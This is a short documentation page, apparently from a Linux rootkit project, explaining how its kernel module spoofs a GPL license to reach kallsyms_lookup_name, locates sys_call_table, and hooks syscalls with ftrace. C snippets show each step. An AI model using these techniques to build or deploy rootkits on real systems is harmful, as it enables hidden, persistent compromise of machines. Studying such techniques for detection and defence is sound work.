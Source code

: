 ```yaml
---
title: "Symbol Resolution & Ftrace Hooks"
description: "How we locate sys_call_table and intercept syscalls via ftrace"
icon: "code"
date: "2025-05-11T18:20:00+01:00"
lastmod: "2025-05-11T18:20:00+01:00"
draft: false
toc: true
weight: 41
---
```


# Symbol Resolution

1. We spoof a GPL license so the kernel exports `kallsyms_lookup_name()`:
   ```c
   MODULE_LICENSE("GPL");
   ```
2. At init, we call:
   ```c
   sys_call_table = (void **)kallsyms_lookup_name("sys_call_table");
   ```
   This gives us the address of the syscall table.

---

# Ftrace-Based Hooking

{{< alert context="info" text="We use ftrace to hook without writing to kernel memory directly." />}}

For each target syscall:

1. Define an `ftrace_ops` with flags:
   ```c
   .func  = hook_trampoline,
   .flags = FTRACE_OPS_FL_SAVE_REGS |
            FTRACE_OPS_FL_IPMODIFY
   ```
2. Apply the filter:
   ```c
   ftrace_set_filter_ip(&ops, (unsigned long)orig_syscall, 0, 0);
   register_ftrace_function(&ops);
   ```
3. Our trampoline copies registers, calls `hook_fn()`, then jumps back to the original.


Always unregister your ftrace functions in `cleanup_module()`:
```c
unregister_ftrace_function(&ops);
```


---

## Code Location

- `rootkit/hook/ftrace_hooks.c`  
- `rootkit/hook/syscall_list.h`
```
